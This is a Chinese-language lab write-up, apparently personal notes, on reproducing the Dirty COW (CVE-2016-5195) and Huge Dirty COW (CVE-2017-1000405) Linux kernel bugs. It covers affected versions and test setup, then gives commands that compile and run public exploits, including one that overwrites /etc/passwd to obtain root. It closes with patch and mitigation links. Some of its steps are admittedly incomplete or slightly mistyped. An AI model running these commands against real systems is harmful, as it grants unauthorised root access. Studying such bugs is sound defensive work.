

# 脏牛(Copy-on-Write)(CVE-2016-5195)漏洞


## 影响范围

Linux内核>=2.6.22（2007年发行）开始就受影响了，直到2016年10月18日才修复。

```uname -a```  查看 linux内核版本， 


	rpm -qa | grep kernel

## 复现环境

https://www.exploit-db.com/apps/7dbac168c2c5f6fb76f2eda1bcbfeec7-linux-3.13.1.tar.gz


github 可以下载内核 : https://github.com/torvalds/linux/releases?after=v4.9-rc2

### 启用 ELRepo 仓库

ELRepo 仓库是基于社区的用于企业级 Linux 仓库，提供对 RedHat Enterprise (RHEL) 和 其他基于 RHEL的 Linux 发行版（CentOS、Scientific、Fedora 等）的支持。

ELRepo 聚焦于和硬件相关的软件包，包括文件系统驱动、显卡驱动、网络驱动、声卡驱动和摄像头驱动等。

### 导入ELRepo仓库的公共密钥

	rpm --import https://www.elrepo.org/RPM-GPG-KEY-elrepo.org

### 安装ELRepo仓库的yum源

	rpm -Uvh http://www.elrepo.org/elrepo-release-7.0-3.el7.elrepo.noarch.rpm

更新yum 源

	yum -y update

查看可用的系统内核包

	yum --disablerepo="*" --enablerepo="elrepo-kernel" list available


(根据网上教程安装降级内核失败，编译未通过。于是尝试下载未打补丁的linux版本镜像)

我用的ubuntu 16.04环境 (Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux)

## 复现

ubuntu 首次登陆创建root密码 sudo passwd （知道普通用户密码可以修改root密码）

我用的ubuntu 16.04 (Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux) ,使用2次 ```./dirtyc0w foo test123``` ，文件内容修改成功，系统都卡住。问题未知。（改用exploitdb exp 运行流畅）。


	git clone https://github.com/dirtycow/dirtycow.github.io.git
	
	cd github.io.git

	编译 poc：

	gcc -pthread dirtyc0w.c -o dirtyc0w
	
	vim foo 

	随便填写 aa

	配置所有用户对该文件只读权限：
	
	chmod 0404 foo

	执行编译后的poc:
	
	./dirtyc0w foo test123

	检查只读文件内容是否被覆盖


**可以以只读权限越权修改系统文件，这样的话，只要修改 /etc/passwd 把当前用户的uid改成0就可以作为root登录**

root用户：


当前用户：


理论上

	./dirtyc0w /etc/passwd lee:x:0:0::/home/lee:/bin/bash


修改了文件，但不是我预期，由于时间原因，我直接用exp


## poc 

[官方git poc](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

## EXP


[稳定的exp(https://github.com/FireFart/dirtycow)](https://github.com/FireFart/dirtycow)

编译：

gcc -pthread dirty.c -o dirty -lcrypt 

后面跟的 随便输入 -s 表示我新增 su 的密码

./dirty -s


查看 /etc/passwd 发现 root用户名 被替换 为 firefart
 


su 输入 -s 切换 root 权限成功


exp2 

这两处 exp一样

https://github.com/gbonacini/CVE-2016-5195

https://www.exploit-db.com/exploits/40847 

[exp](https://github.com/gbonacini/CVE-2016-5195)


第一次成功，后来都未成功，原因未知。


exp3 

https://www.exploit-db.com/exploits/40616

	$ gcc cowroot.c -o cowroot -pthread
	$ ./cowroot

测试成功,据说会偶尔卡死


## 修复建议

补丁：

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619

## 脏牛安卓提权

原理：Android 1.0是基于Linux kernel 2.6.25的，而脏牛漏洞在2.6.22里就已经存在了


NDK 配置：

vim /etc/profile

添加如下：

export NDKROOT=/home/lzp/android-ndk-r20b
export PATH=$NDKROOT:$PATH

source /ect/profile

至此环境变量配置成功

cd 进 CVE-2016-5195(https://github.com/timwr/CVE-2016-5195)

如果不想添加环境变量，可以用绝对路径执行 ndk-build


发现新生成了2个文件夹：




后面不知道如何进行，暂不知如何将编译后的文件放入安卓手机。

## 参考资料

[脏牛漏洞安卓测试https://github.com/hyln9/VIKIROOT](https://github.com/hyln9/VIKIROOT)

[安卓poc](https://github.com/timwr/CVE-2016-5195)

[脏牛漏洞安卓复现](https://www.jianshu.com/p/329be83a310f)

[安卓NDK](https://developer.android.com/ndk/downloads/index.html)


# 大脏牛漏洞(CVE-2017-1000405)

## 概述

该漏洞发生在 Transparent Huge Pages (THP)中。

“脏牛”漏洞是Linux内核之父Linus亲自修复的，他提交的补丁单独针对“脏牛”而言并没有问题。从我们的分析过程中发现，内核的开发者希望将“脏牛”的修复方法引用到PMD的逻辑中，但是由于PMD的逻辑和PTE并不完全一致才最终导致了“大脏牛”漏洞。

[**detail**](https://medium.com/bindecy/huge-dirty-cow-cve-2017-1000405-110eca132de0)

## 影响范围

由于从2.6.38内核后才开始支持THP，所以漏洞影响所有内核在2.6.38以上并且开启THP的Linux系统。万幸的是在大多数Android系统的内核中没有开启THP，所以对于Android系统几乎没有影响。

## 检测THP是否开启

如果是开发者,有内核源码可以查看编译的config文件，看CONFIG_TRANSPARENT_HUGEPAGE是否打开

如果没有源码,在shell中可以查看/sys/kernel/mm/transparent_hugepage/enabled,如果输出结果为[always]表示透明大页被启用、[never]表示透明大页被禁用、[madvise]表示只在MADV_HUGEPAGE标志的VMA中启用THP，例如：

如果以上两者都没有，可以查看/proc/meminfo，如果连HugePage*都没有，那就说明没有开启大页面，也不会受到漏洞影响

## poc

https://github.com/bindecy/HugeDirtyCowPOC


poc运行显示成功后，只是表示修改零页成功，覆盖了巨大零内存页。需要运行其他应用程序，当其他应用程序读取零页，进行非法操作时即可触发crash，引爆漏洞。


具体如何[利用火狐使之崩溃并提权](https://bbs.pediy.com/thread-223056.htm)，没有看懂

## 修复建议

软件开发人员可通过：https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux-stable.git/commit/?h=linux-4.9.y&id=7031ae2ab37d3df53c4a4e9903329a5d38c745ec 新编译Linux修复该漏洞。如果开发人员暂时无法编译和替换内核，可以通过关闭透明大页（THP）来缓解。


## 参考资料

https://www.anquanke.com/post/id/89096

https://www.anquanke.com/post/id/88063

https://bbs.pediy.com/thread-223056.htm

[脏牛android IOC](https://www.freebuf.com/news/149327.html)

